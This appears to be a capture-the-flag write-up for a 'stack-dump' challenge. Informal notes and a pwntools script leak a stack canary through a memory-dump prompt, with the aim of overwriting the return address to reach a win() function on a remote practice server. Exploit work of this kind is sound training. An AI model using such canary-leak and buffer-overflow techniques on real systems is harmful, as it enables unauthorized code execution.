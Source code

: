 - Seems like the input is just an input for the dump memory function, allowing us to dump memory wherever we want. 
We can then dump memory off the stack and leak the canary!

- Stack pointer they've given us is $ebp-0x71, need to add by 0x71 to get the base pointer and then leak the stack canary stored at [$ebp-8]

- Got the canary bois! Now we just need to overwrite $eip and get to `win()`
- Nevermind, canary doesn't match with the actual one hmmm...
- More offset stuff 
- Ok we're back

- Messing about with cyclic and getting the canary location, seems like it changes and messes up with the input so I'll keep that static

- *puts sunglasses on* I'm in

Script/Command used
------------------
```python2
from pwn import *
context.binary = './stack-dump'
context.terminal = ['alacritty', '-e', 'sh', '-c']
context.aslr = False

# from objdump
# 080486c6 <win>:
target = 0x080486c6

'''
a) fgets(), atoi(), gets()
b) printf("memory at address %p:", var1), putchar()
c) getpid(), sprintf(), system("cat /proc/%u/maps", get_pid())
d) return
'''

io = None
script = 'b *0x080488a2'
#io = gdb.debug('./stack-dump', gdbscript=script)
#io = process('./stack-dump')
io = remote('plzpwn.me', 2003)

print(io.recvuntil('pointer 0x'))
# This is the call to printf that gives us the 'stack pointer', which is offset at [$ebp-0x71]
# 8048730:       8d 45 8f                lea    eax,[ebp-0x71]
# 8048733:       50                      push   eax
# 8048734:       8d 83 c0 e9 ff ff       lea    eax,[ebx-0x1640]
# 804873a:       50                      push   eax
# 804873b:       e8 90 fd ff ff          call   80484d0 <printf@plt>
ebp = int(io.recvuntil('\n'), base=16) + 0x71
print('ebp at: ' + hex(ebp))

io.sendline('a')
print(io.recvuntil('len: '))
io.sendline('4')

# Stack canary is loaded at the offset 0x8 from base pointer
# 8048703:       65 a1 14 00 00 00       mov    eax,gs:0x14
# 8048709:       89 45 f8                mov    DWORD PTR [ebp-0x8],eax
canaryAddress = ebp - 0x08
exploit = pack(canaryAddress)

print('canary address: ' + hex(canaryAddress))

io.sendline(exploit)
print(io.recvuntil('quit\n'))
```